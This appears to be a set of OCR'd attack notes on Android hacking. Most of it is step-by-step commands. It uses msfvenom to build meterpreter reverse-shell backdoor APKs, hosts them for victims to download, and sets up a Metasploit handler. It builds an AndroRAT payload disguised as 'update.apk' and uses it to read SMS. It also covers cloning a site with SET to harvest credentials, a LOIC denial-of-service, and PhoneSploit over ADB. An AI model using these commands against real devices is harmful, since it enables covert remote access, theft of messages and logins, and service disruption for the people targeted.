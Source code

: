 >  msfvenom
-  `msfvenom -l payloads | grep android`
- `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik lhost=IP R > ./backdoor.apk`
- `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=192.x.x.x  LPORT=4xxx -f raw> dky.apk`

- `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik
LHOST=10.10.1.13 LPORT=4444 –f raw –o Backdoor.apk`

- `cp /root/Desktop/backdoor.apk /var/www/html/share`
- `service postgresql start`
- `use exploit/multi/handler`
- `set payload android/meterpreter/reverse_tcp`

- In Android:
	* http://IP/share/ >  download the backdoor.apk > execute it

> AndroRAT
- create it:
	* `cd androRAT`
	* `pyhton3 androRAT.py --build -i IPattacker -p port -o update.apk`
	* `cp /home/attacker/AndroRAT/update.apk /var/www/html/share`
	* `service apache2 start`
- waiting for connections:
	* `python3 androRAT.py --shell -i 0.0.0.0 -p port`
- transfer it to Android machine and execute it
	* `deviceInfo`
	* `getSMS inbox`
	* `getMACAddress`


## <span style="color: #3498db; font-size: 0.8em;">  Harvester Users' Credentials using the Social-Engineer Toolkit (SET)</span>

>  SET
- setoolkit > social-engineering attacks > website attack vectors > credential harvester attack method > site cloner


## <span style="color: #3498db; font-size: 0.8em;">  Launch a DoS Attack on a Target Machine</span>

>  Low Orbit Ion Cannon (LOIC) - apk
- click the apk and install it > choose the IP target > get ip > tcp and port 80, threads 100 > start


## <span style="color: #3498db; font-size: 0.8em;">  Exploit Android Platform though ADB</span>

- apt install adb
- git clone https://github.com/aerosol‐can/PhoneSploit
- cd PhoneSploit
- pip3 install colorama
